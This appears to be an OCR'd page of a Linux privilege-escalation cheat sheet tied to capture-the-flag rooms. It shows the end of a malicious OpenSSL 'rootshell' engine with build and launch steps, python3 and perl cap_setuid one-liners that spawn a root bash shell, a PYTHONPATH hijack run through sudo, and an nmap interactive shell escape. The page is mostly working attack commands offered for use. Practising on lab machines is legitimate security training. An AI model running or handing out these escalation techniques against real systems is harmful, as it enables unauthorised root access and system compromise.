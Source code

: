 ```c
    
    end:
    return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
2 - Debug it! `gcc -fPIC -o rootshell.o -c rootshell.c | gcc -shared -o rootshell.so -lcrypto rootshell.o`

3 - Transfer the file to target's /tmp folder

4 - Give the right permissions `chmod +x rootshell.so`

5 - Launch it! `openssl req -engine ./rootshell.so`

REFERENCES:
- https://www.aldeid.com/wiki/TryHackMe-Mindgames#Capabilities
- https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
***
**#Python_Capabilities**
If you see this result under Capabilities[+] column in linpeas or in result of `getcap -r / 2>/dev/null`

- Go to the capable software's directory
- Let's check if the vulnerability indeedly exist `ls -al python3`
- And lastly `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

REFERENCES:
- https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
***
**#Perl_Capabilities**
If you see this result under Capabilities[+] column in linpeas
`/usr/bin/perl = cap_setuid+ep`
then ,run following command :
- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`

REFERENCES:
- https://www.aldeid.com/wiki/TryHackMe-Wonderland#From_hatter_to_root_(privesc)
- https://gtfobins.github.io/gtfobins/perl/#capabilities
***
If the methodology is routing you to a directory that owned by root ,then you can do this to create some files:

1 -  `mkdir -p /tmp/shop; echo 'import os; os.system("/bin/bash");' > /tmp/shop/shop.py`

2 - `sudo -u jordan PYTHONPATH=/tmp/shop/ /opt/scripts/Gun-Shop.py`
***
**Things To Check**

- Check /opt directory ,there might be some interesting files

- If target have nmap version between 2.02 - 5.21 then you can use `nmap --interactive |!sh`
